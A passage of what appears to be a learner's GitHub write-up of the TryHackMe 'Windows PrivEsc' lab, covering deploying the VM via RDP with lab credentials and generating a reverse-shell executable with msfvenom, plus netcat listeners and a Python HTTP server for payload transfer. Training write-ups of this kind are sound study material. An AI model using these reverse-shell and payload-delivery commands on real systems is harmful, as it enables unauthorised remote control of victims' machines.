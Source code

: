<h1 align="center">Windows PrivEsc</h1>
<p align="center"><img width="80px" src="https://github.com/user-attachments/assets/b455aeed-0049-4514-8a44-a93278cb6aad"><br>
2025, October 14<br> Hey there, fellow lifelong learner! I´m <a href="https://www.linkedin.com/in/rosanafssantos/">Rosana</a>,<br>
and I’m excited to join you on this adventure, part of my <code>526</code>-day-streak in<a href="https://tryhackme.com"> TryHackMe</a>.<br>
<em>Practice your Windows Privilege Escalation skills on an intentionally misconfigured Windows VM with multiple ways to get admin/SYSTEM! RDP is available. Credentials: user:password321</em>.<br>
Access it <a href="https://tryhackme.com/room/windows10privesc">here</a>.<br>
<img width="1200px" src="https://github.com/user-attachments/assets/83a6988f-c925-4606-afbc-7eb9ac245ecd"></p>

<br>
<h2 align="center">Task 1 . Deploy the Vulnerable Windows VM</h2>


<p><em>Answer the question below</em></p>

<p>1.1.Deploy the Windows VM and login using the "user" account.<br>
<code>No answer needed</code></p>

```bash
:~# xfreerdp /u:user /p:password321 /cert:ignore /v:xx.xxx.xx.xxx
```


<br>
<h2 align="center">Task 2 . Generate a Reverse Shell Executable</h2>


<p><em>Answer the question below</em></p>

<p>2.1. Generate a reverse shell executable and transfer it to the Windows VM. Check that it works!.<br>
<code>No answer needed</code></p>

```bash
:~# msfvenom -p windows/x64/shell_reverse_tcp LHOST=xx.xxx.x.xx LPORT=4444 -f exe -o program.exe
[-] No platform was selected, choosing Msf::Module::Platform::Windows from the payload
[-] No arch selected, selecting arch: x64 from the payload
No encoder specified, outputting raw payload
Payload size: 460 bytes
Final size of exe file: 7168 bytes
Saved as: program.exe
```

```bash
:~# nc -nlvp 4444
Listening on 0.0.0.0 4444
```

```bash
:~# nc -nlvp 4444
Listening on 0.0.0.0 4444
```

```bash
:~# python3 -m http.server
Serving HTTP on 0.0.0.0 port 8000 (http://0.0.0.0:8000/) ...
```
